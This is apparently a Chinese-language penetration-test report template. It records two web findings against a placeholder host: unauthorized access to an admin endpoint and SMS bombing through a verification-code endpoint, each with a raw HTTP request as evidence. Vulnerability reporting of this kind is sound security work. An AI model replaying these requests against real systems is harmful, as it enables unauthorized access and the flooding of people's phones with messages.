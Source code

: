 ### 任务信息

| 公司名称  | XX公司                                                |
|:-----:| --------------------------------------------------- |
| 系统名称  | XXX管理系统                                             |
| 漏洞名称  | 未授权访问                                               |
| 域名    | www.test.com                                        |
| 漏洞URL | https://www.test.com:8080/admin.spring?encode=utf-8 |
| 危害级别  | 中危                                                  |
| 日期    |                                                     |
| 测试人员  | Nika                                                |

### 未授权访问

```
GET /admin.spring?encode=utf-8 HTTP/1.1
Host: www.test.com
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X_requested_with: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary8de296bfe899025ea066c083c9f6aa3f
Content-Length: 926
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive
```



### 短信轰炸

```
POST /admin/getVcodeForEdit HTTP/1.1
Host: www.test.com
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
X_requested_with: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary8de296bfe899025ea066c083c9f6aa3f
Content-Length: 926
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: keep-alive
{"userId":"1123","oldTel":"13888888888","newTel":"13666666666","communityId":123}
```

1.短信验证码发送接口

![](C:\Users\wl\AppData\Roaming\marktext\images\2025-06-30-16-07-32-image.png)

---

### 笔记

不会被输出(will not print)
